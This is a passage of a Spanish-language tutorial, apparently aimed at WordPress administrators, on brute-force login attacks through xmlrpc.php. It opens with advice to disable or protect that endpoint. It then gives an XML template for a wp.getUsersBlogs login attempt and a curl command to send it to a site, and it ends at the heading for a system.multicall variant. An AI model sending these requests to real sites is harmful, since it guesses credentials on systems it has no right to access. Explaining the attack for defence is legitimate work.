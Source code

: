 📌 **Los ataques de fuerza bruta en WordPress a través de XML-RPC son mucho más rápidos que los tradicionales.**  
📌 **`system.multicall` permite probar cientos de combinaciones en una sola petición, reduciendo drásticamente el tiempo de ataque.**  
📌 **Desactivar o proteger `xmlrpc.php` es esencial para evitar estos ataques.**

🚀 **Si eres un administrador de WordPress, revisa y protege tu sitio AHORA.**







----






## **Plantillas XML para Ataques de Fuerza Bruta en XML-RPC de WordPress**

Para explotar `xmlrpc.php` en WordPress, podemos enviar solicitudes XML personalizadas con múltiples combinaciones de usuario y contraseña en una sola petición. A continuación, te muestro plantillas XML para ataques de fuerza bruta utilizando `system.multicall`.

---

### **📌 1. Plantilla XML para probar una única combinación de usuario/contraseña**

Esta plantilla envía una solicitud de autenticación estándar a `xmlrpc.php` usando el método `wp.getUsersBlogs`.

```xml
<?xml version="1.0"?>
<methodCall>
  <methodName>wp.getUsersBlogs</methodName>
  <params>
    <param>
      <value><string>admin</string></value>
    </param>
    <param>
      <value><string>password123</string></value>
    </param>
  </params>
</methodCall>
```

📌 **Uso:** Puedes guardarlo en un archivo `single_attempt.xml` y enviarlo con `cURL`:

```bash
curl -X POST -d @single_attempt.xml https://ejemplo.com/xmlrpc.php
```

---

### **🚀 2. Plantilla XML con `system.multicall` para múltiples intentos en una sola solicitud**

